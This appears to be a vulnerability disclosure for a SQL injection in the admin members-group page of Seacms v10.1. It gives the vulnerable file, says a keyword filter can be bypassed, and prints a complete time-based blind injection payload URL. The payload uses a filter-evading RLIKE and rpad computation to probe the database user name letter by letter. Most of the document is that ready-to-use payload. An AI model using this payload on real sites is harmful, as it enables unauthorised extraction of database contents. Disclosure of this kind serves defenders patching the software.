

# Seacms v10.1 (2020.02.08) latest version SQL injection

Download address on official website: https://www.seacms.net

Through code audit, the vulnerability points are`/5owghc/admin_members_group.php`

Note: after the program is installed, the background directory will be renamed randomly. Here it is changed to `5oghc`


Line 55 variable $id spliced into SQL query，Follow up GetOne function，Using checksql function to filter the key words of SQL injection for variables，Can be bypassed。

**Payload**

```
http://10.2.7.9/5owghc/admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
```

Check the first letter of database user name，"t" No delay.



Success delay when "r"


Malicious statement successfully brought into database for execution, SQL injection exists.